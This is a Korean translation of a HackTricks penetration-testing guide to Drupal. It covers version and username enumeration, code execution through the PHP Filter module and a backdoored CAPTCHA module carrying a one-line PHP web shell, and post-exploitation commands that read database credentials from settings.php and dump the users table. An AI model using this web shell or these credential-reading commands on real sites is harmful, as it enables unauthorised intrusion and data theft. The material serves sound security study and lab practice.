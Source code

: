 # Drupal

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)을 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Discovery

* **메타**를 확인하세요
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal은 **콘텐츠를 노드로 색인화**합니다. 노드는 블로그 글, 투표, 기사 등과 같은 **모든 것을 보유**할 수 있습니다. 페이지 URI는 일반적으로 `/node/<nodeid>` 형식입니다.
```bash
curl drupal-site.com/node/1
```
## 열거

Drupal은 기본적으로 **세 가지 유형의 사용자**를 지원합니다:

1. **`관리자`**: 이 사용자는 Drupal 웹사이트를 완전히 제어할 수 있습니다.
2. **`인증된 사용자`**: 이러한 사용자는 웹사이트에 로그인하여 권한에 따라 기사를 추가하고 편집하는 작업을 수행할 수 있습니다.
3. **`익명`**: 모든 웹사이트 방문자는 익명으로 지정됩니다. 기본적으로 이러한 사용자는 게시물을 읽는 것만 허용됩니다.

### 버전

* `/CHANGELOG.txt`를 확인하세요.
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
드루팔의 최신 설치판은 기본적으로 `CHANGELOG.txt` 및 `README.txt` 파일에 대한 액세스를 차단합니다.
{% endhint %}

### 사용자 이름 열거

#### 등록

_ /user/register_에서 사용자 이름을 만들려고 시도하고 이름이 이미 사용 중이면 알림이 표시됩니다:

![](<../../.gitbook/assets/image (328).png>)

#### 새 비밀번호 요청

기존 사용자 이름에 대해 새 비밀번호를 요청하는 경우:

![](<../../.gitbook/assets/image (903).png>)

존재하지 않는 사용자 이름에 대해 새 비밀번호를 요청하는 경우:

![](<../../.gitbook/assets/image (307).png>)

### 사용자 수 가져오기

_ /user/\<number>_에 액세스하여 기존 사용자 수를 볼 수 있습니다. 이 경우 _/users/3_은 찾을 수 없음 오류를 반환합니다:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### 숨겨진 페이지

**`/node/$`로 퍼징하십시오. 여기서 `$`는 숫자** (예: 1에서 500까지).\
검색 엔진에서 참조되지 않는 **숨겨진 페이지** (테스트, 개발)를 찾을 수 있습니다.

#### 설치된 모듈 정보
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### 자동
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP 필터 모듈을 사용한 방법

{% hint style="warning" %}
Drupal의 **이전 버전**(버전 8 이전)에서는 관리자로 로그인하여 **`PHP 필터` 모듈을 활성화**할 수 있었으며, 이 모듈은 "내장 PHP 코드/스니펫을 평가할 수 있게 합니다."
{% endhint %}

**플러그인 php가 설치되어 있어야** 합니다( _/modules/php_에 액세스하여 **403**이 반환되면 **설치된 것**이고, **찾을 수 없으면** 플러그인 php가 **설치되지 않은 것**입니다)

_Modules_로 이동 -> (**확인**) _PHP Filter_ -> _구성 저장_

![](<../../.gitbook/assets/image (247) (1).png>)

그런 다음 _콘텐츠 추가_를 클릭 -> _기본 페이지_ 또는 _기사 선택_ -> _본문에 php 쉘코드 작성_ -> _텍스트 형식_에서 _PHP 코드_ 선택 -> _미리 보기_ 선택

![](<../../.gitbook/assets/image (338).png>)

마지막으로 방금 생성한 노드에 액세스하십시오:
```bash
curl http://drupal-site.local/node/3
```
### PHP 필터 모듈 설치

버전 **8부터**는 [**PHP 필터**](https://www.drupal.org/project/php/releases/8.x-1.1) **모듈이 기본으로 설치되지 않습니다**. 이 기능을 활용하려면 **모듈을 직접 설치해야 합니다**.

1. Drupal 웹사이트에서 모듈의 최신 버전을 다운로드합니다.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. 다운로드가 완료되면 **`관리`** > **`보고서`** > **`사용 가능한 업데이트`**로 이동합니다.
4. **`찾아보기`**를 클릭하여 다운로드한 디렉토리에서 파일을 선택한 후 **`설치`**를 클릭합니다.
5. 모듈이 설치되면 **`콘텐츠`**를 클릭하고 **Drupal 7 예제에서 했던 것과 유사하게 새 기본 페이지를 생성**합니다. 다시 한번 **`텍스트 형식` 드롭다운에서 `PHP 코드`를 선택**해야 합니다.

### 백도어 모듈

백도어 모듈은 **기존 모듈에 쉘을 추가하여 생성**할 수 있습니다. 모듈은 drupal.org 웹사이트에서 찾을 수 있습니다. [CAPTCHA](https://www.drupal.org/project/captcha)와 같은 모듈을 선택해 보겠습니다. 아래 링크에서 tar.gz [아카이브](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) 링크를 복사합니다.

* 아카이브를 다운로드하고 내용을 추출합니다.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* 다음 내용으로 **PHP 웹 쉘**을 생성하십시오:
```php
<?php
system($_GET["cmd"]);
?>
```
* 다음으로, 우리는 폴더에 접근할 수 있도록 **`.htaccess`** 파일을 생성해야 합니다. 이것은 Drupal이 **`/modules`** 폴더에 직접 액세스하는 것을 거부하기 때문에 필요합니다.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* 위의 구성은 /modules에서 파일을 요청할 때 / 폴더에 대한 규칙을 적용합니다. 이 두 파일을 captcha 폴더로 복사하고 아카이브를 만듭니다.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* 웹 사이트에 **관리자 액세스**가 있다고 가정하고, 사이드바에서 **`관리`**를 클릭한 다음 **`확장`**을 클릭합니다. 그다음 **`+ 새 모듈 설치`** 버튼을 클릭하면 설치 페이지로 이동하게 되며, `http://drupal-site.local/admin/modules/install`과 같은 페이지로 이동합니다. 백도어가 설치된 Captcha 아카이브로 이동하여 **`설치`**를 클릭합니다.
* 설치가 성공하면 **`/modules/captcha/shell.php`**로 이동하여 명령을 실행합니다.

## 사후 침투

### settings.php 읽기
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### 데이터베이스에서 사용자 덤프하기
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## 참고 자료

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks를 광고하거나 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

